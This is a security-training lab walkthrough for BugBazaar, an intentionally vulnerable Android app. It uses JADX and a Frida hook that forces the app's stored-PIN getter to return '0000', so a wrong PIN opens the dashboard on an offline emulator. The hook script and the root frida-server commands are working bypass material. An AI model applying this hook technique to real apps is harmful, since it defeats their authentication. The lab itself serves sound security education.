


# 30 — Client-side login bypass through runtime manipulation

*Can changing BugBazaar's local PIN check make an incorrect PIN work?*

## What this lab does

Set a synthetic PIN in BugBazaar, confirm that an incorrect PIN is rejected, then inspect the local PIN check. With Frida on a disposable emulator, change the check so the same incorrect PIN opens the app.

This tests BugBazaar's local check only. Reaching another screen does not prove that a server accepted an unauthorized request.

**Tested target:** BugBazaar release `v1.2.1` from source revision [`fef6a899a684245eb70b2ab4be926f62be849ed9`](https://github.com/payatu/BugBazaar/tree/fef6a899a684245eb70b2ab4be926f62be849ed9). **Tested on:** Android 14 / API 34 with Frida 17.4.2 on an x86_64 emulator.

## Before you begin

Complete [Common prerequisites](00-common-setup.md) and [BugBazaar setup](02-bugbazaar-setup.md). Use an instrumentable emulator with matching Frida client/server, and set a synthetic PIN.

The local passcode comparison is present in the source. The hook below was run on the tested setup: an incorrect PIN was rejected first, the correct PIN opened the dashboard, and the same incorrect PIN opened the dashboard after the hook. Use a synthetic PIN of your own and confirm the same two outcomes on your emulator.

## Guided walkthrough

You will use the host terminal, the Android emulator, and JADX. ADB commands go in the host terminal, not in the emulator. Keep the emulator offline as described in [BugBazaar setup](02-bugbazaar-setup.md), and use only the synthetic PIN prepared for this lab.

!!! warning "Check the versions before you attach"
    The tested setup used Frida 17.4.2 on an x86_64 Android 14 / API 34 emulator. Confirm that your Frida client and the emulator's Frida server report the same version before you start.

### 1. Check that ADB can see the emulator

On the host, open a Bash terminal and run:

```bash
adb devices -l
```

Find the line for your lab emulator. The first item is its serial number. The second item must say `device`.

If no emulator is listed, or its status says `offline` or `unauthorized`, stop. Do not install the app on a different device.

Copy the serial number from the first item. Use it in place of `emulator-5554` in the commands below. Keep using the same terminal so the `SERIAL` value stays set.

```bash
set -euo pipefail
SERIAL=emulator-5554  # Replace with the serial shown by adb devices -l
adb -s "$SERIAL" shell getprop ro.build.version.release
adb -s "$SERIAL" shell getprop ro.build.version.sdk
adb -s "$SERIAL" shell getprop ro.product.cpu.abi
frida --version
```

Write down the Android release, API level, device ABI, and Frida client version. The installed Frida server must match the client version and the device ABI. If `frida --version` fails, stop here. Do not install a different server or change the emulator yourself.

### 2. Check how BugBazaar handles the PIN

On the emulator, open BugBazaar from the app launcher.

1. If BugBazaar shows **Enter Passcode**, tap four digits different from your lab PIN. Confirm that four dots appear above the keypad, then tap **VALIDATE**.
2. Confirm that BugBazaar shows `Incorrect passcode. Try again.` On the tested emulator the stored PIN was `2468` and the rejected entry was `0000`.
3. Enter your synthetic lab PIN, confirm that four dots appear, and tap **VALIDATE** again. A correct PIN shows `Passcode correct!` and opens the dashboard.

If the incorrect PIN is not rejected or the correct PIN does not reach the expected screen, stop. Do not continue to the runtime test with a different baseline.



The rejected attempt stays on the passcode screen and shows `Incorrect passcode. Try again.`


The correct PIN opens `NavigationDrawer_Dashboard` and shows `Passcode correct!`.

!!! warning "If BugBazaar opens past the passcode screen"
    Close BugBazaar from the recent-apps list and open it again. If it still opens on the dashboard, restart the emulator and open BugBazaar from the launcher; on the tested emulator this showed **Enter Passcode** again without any data reset. Do not clear app data, uninstall the app, or use ADB to start the private passcode activity.

### 3. Find the PIN comparison in JADX

On the host, open JADX and use **File → Open** to select the verified `BugBazaar_v1.2.1.apk` from BugBazaar setup. After it loads, use JADX's class search to find `PasscodeActivity`, then open `com.BugBazaar.ui.PasscodeActivity`.

In the displayed code, find `btnValidate.setOnClickListener`. Inside its `onClick` method, find the call to `UserAuthSave.getpasscode()` and the `enteredPasscode.equals(passcode)` comparison. The screenshot below shows these lines in the pinned source; JADX may display the code differently.

Read both sides of the `if` statement:

- If the entered PIN matches, the source starts `NavigationDrawer_Dashboard`.
- If it does not match, the source displays `Incorrect passcode. Try again.` and clears the entered value.

These are source-code results that match the tested app. If JADX shows a different class or comparison, check the installed APK before continuing.



This pinned source screenshot shows the comparison and both branches.

### 4. Observe the check with Frida

First check whether a Frida server is already running on the emulator:

```bash
adb -s "$SERIAL" shell 'ps -A | grep frida'
```

If a `frida-server` line appears, write down its version and skip to the next command. If nothing appears, start the server file already installed on the emulator. The file name must match your server version:

```bash
adb -s "$SERIAL" shell 'su -c "nohup /data/local/tmp/frida-server-17.4.2 >/data/local/tmp/frida.log 2>&1 &"'
adb -s "$SERIAL" shell 'ps -A | grep frida'
```

The second command must now show the server process. If `su` is denied, or the file is missing, stop. The server must already be installed on the disposable lab emulator; do not download a different server.

On the host, confirm that the client can see BugBazaar:

```bash
frida-ps -Uai | grep BugBazaar
```

The output should list `BugBazaar` with the identifier `com.BugBazaar`. If the list is empty, or the command reports that it cannot connect, stop and fix the client/server match before continuing.

### 5. Attach the hook and retry the same PIN

Create the hook script on the host in the directory where you will run Frida:

```bash
cat > lab30-hook.js <<'EOF'
Java.perform(function () {
  const Auth = Java.use('com.BugBazaar.controller.UserAuthSave');
  const getPasscode = Auth.getpasscode.overload();
  getPasscode.implementation = function () {
    console.log('[lab30] getpasscode called; substituting lab value');
    return '0000';
  };
  console.log('[lab30] hook installed');
});
EOF
```

The script replaces the value returned by `UserAuthSave.getpasscode()` with `0000`. `PasscodeActivity` reads the stored PIN through that method, so a `0000` entry now matches instead of failing.

Attach to the running BugBazaar process and load the script:

```bash
frida -U -n BugBazaar -l lab30-hook.js
```

Wait for both lines:

```text
[lab30] hook installed
[Android Emulator 5554::BugBazaar ]->
```

The `->` prompt means Frida is attached and the session is interactive. Leave this terminal running.

On the emulator, enter `0000` on the passcode screen so that four dots appear, then tap **VALIDATE**. `0000` is wrong for the tested lab, so without the hook it is rejected.

Watch the Frida terminal. It should print:

```text
[lab30] getpasscode called; substituting lab value
```

That line confirms the app reached the modified method. Then check the emulator screen and record which screen is shown.

If the app still reports `Incorrect passcode. Try again.`, the hook did not take effect. Stop the Frida session with `exit`, recheck the class and method names in JADX, and attach again.

To undo the hook, type `exit` at the Frida prompt and restart BugBazaar from the app launcher.


With the hook active, the same `0000` entry that was rejected in Step 2 opened `NavigationDrawer_Dashboard` and showed `Passcode correct!`.

!!! success "What the test showed"
    The stored PIN was `2468`. Entering `0000` was rejected before the hook, and `2468` opened the dashboard. With the hook active, the same `0000` opened the dashboard, and Frida printed `hook installed` followed by the `getpasscode` line. That controlled before-and-after comparison is the bypass: the local check compared the entry against the value returned by the hooked method, not against the stored PIN.

Seeing the dashboard by itself does not prove that the PIN check was bypassed. Confirm that the transition came from the PIN-validation branch and that the Frida output shows the hooked call.

This test covers BugBazaar's local PIN screen. Only claim a server-side impact if you separately tested a protected server action.

## Troubleshooting

- **`Failed to attach: unable to connect to remote frida-server: closed`:** no Frida server is running, or it crashed. Repeat the `ps -A | grep frida` check in Step 4 and start the server again.
- **`frida-ps` lists no BugBazaar:** launch BugBazaar on the emulator first, then repeat the command.
- **`hook installed` never appears:** the class or method name differs in your build. Recheck `com.BugBazaar.controller.UserAuthSave` and `getpasscode` in JADX before changing the script.
- **The app still rejects `0000`:** the hook is not active in that process. Stop Frida with `exit`, attach again, and confirm the `getpasscode called` line when you tap **VALIDATE**.
- **Frida reports a version mismatch:** the client and server versions must match. Use the server version installed on the lab emulator; do not install a different server into another environment.

<details markdown="1">
<summary>Hints</summary>

1. Trace the PIN validation method using static analysis before attaching a runtime tool.
2. Instrument only the lab process; observe the return value before attempting to alter it. Check app protections and version compatibility if attachment fails.

</details>

## Evidence

Submit these three items:

- **Baseline:** record the four digits you entered and the message shown before instrumentation. Confirm that the incorrect PIN was rejected and the correct PIN was accepted. If you could not reach the passcode screen, say so instead.
- **Frida result:** include the sanitized Frida output showing `hook installed` and `getpasscode called`, the PIN you entered after attaching, and a capture of the screen the app showed. State that the same PIN was rejected before the hook.
- **Context and limits:** Android version/API, Frida client/server versions, and whether you tested a protected server action. If you did not test one, say that the result covers only the app's local PIN check.

## Vulnerability and Impact

**Vulnerability:** BugBazaar compares the PIN inside the app and reads the stored value from shared preferences through `UserAuthSave.getpasscode()`. On the tested emulator, a Frida hook replaced that return value: `0000` was rejected before the hook and opened the dashboard after it. Because the comparison and the stored value are both local to the app process, an attacker who can instrument the process can satisfy the check without knowing the PIN.

**Impact:** Someone who can instrument the running app may get past the local PIN screen and reach content available after it on that device. This does not show that a server accepts unauthorized requests or exposes server-side data. Test a protected server action separately before claiming that impact.

## Cleanup and review

- Type `exit` at the Frida prompt to stop the hook, then restart BugBazaar.
- Reset the synthetic PIN through the app's passcode setup, or restore the disposable emulator to its clean snapshot.
- Remove the local hook script if your lab policy requires it.

What is protected by the local PIN, and what evidence would be needed to claim a server-side authorization bypass?
